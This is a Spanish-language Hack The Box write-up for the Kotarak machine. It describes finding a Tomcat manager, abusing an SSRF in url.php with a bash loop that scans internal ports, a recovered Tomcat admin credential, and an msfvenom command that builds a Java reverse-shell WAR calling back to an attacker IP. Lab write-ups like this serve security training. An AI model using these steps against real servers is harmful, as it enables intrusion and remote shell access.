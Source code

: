 # Kotarak-HTB

## Nmap

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/6e56c404-d431-4ed5-84b1-40bc05965f91)

## Tomcat

Se encontro un servidor tomcat el panel de administracion usualmente esta en:

> manager/html

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/eee4bc02-9e30-4689-9976-99e543ab922a)

## SSRF

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/cf9f356c-a756-452a-a4de-cbf2dbb99653)

Entonces esto nos permite enumerar puertos con un script

```
#!/bin/bash

for i in $(seq 0  65535); do

#sleep 1
#echo $i

data=$(curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"&)
#echo "El puerto que estamos revisando es: $i"
#curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"

if [ ! -z "$data" ]; then

     echo "El puerto que respondio es el $i-----------"
     echo $data

fi

data=''
wait;
done

echo "Finalizado..."
```

Se encontraron varios puertos abiertos lo mas destacado

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/03665140-1b85-4a53-a508-ba59dfe71d8e)

Vemos que tienenel backup 

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/c5f4b0cb-639d-4f2b-aa59-8e082da841af)

> <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>

## RCE

### msfvenom

Vamos a crear una payload:

```
msfvenom -l payload | grep java

###
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f war -o rev.war

```























































